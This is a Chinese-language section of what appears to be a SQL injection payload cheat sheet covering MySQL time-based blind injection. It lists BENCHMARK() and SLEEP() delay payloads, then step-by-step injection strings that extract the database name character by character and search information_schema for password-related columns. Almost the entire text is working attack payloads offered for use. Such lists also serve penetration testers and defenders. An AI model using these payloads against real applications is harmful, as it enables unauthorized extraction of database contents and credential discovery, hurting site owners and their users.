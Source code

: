
## MySQL基于时间的注入

以下SQL代码将延迟MySQL的输出。

* MySQL 4/5 : [`BENCHMARK()`](https://dev.mysql.com/doc/refman/8.4/en/select-benchmarking.html) 
    ```sql
    +BENCHMARK(40000000,SHA1(1337))+
    '+BENCHMARK(3200,SHA1(1))+' 
    AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))
    ```

* MySQL 5: [`SLEEP()`](https://dev.mysql.com/doc/refman/8.4/en/miscellaneous-functions.html#function_sleep) 
    ```sql
    RLIKE SLEEP([SLEEPTIME])
    OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))
    XOR(IF(NOW()=SYSDATE(),SLEEP(5),0))XOR
    AND SLEEP(10)=0
    AND (SELECT 1337 FROM (SELECT(SLEEP(10-(IF((1=1),0,10))))) RANDSTR)
    ```

### 在子查询中使用SLEEP

提取数据的长度。

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '%')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '___')# 
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '____')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '_____')#
```

提取第一个字符。

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'A____')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'S____')#
```

提取第二个字符。

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SA___')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SW___')#
```

提取第三个字符。

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWA__')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWB__')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWI__')#
```

提取列名。

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE (SELECT table_name FROM information_schema.columns WHERE table_schema=DATABASE() AND column_name LIKE '%pass%' LIMIT 0,1) LIKE '%')#
```
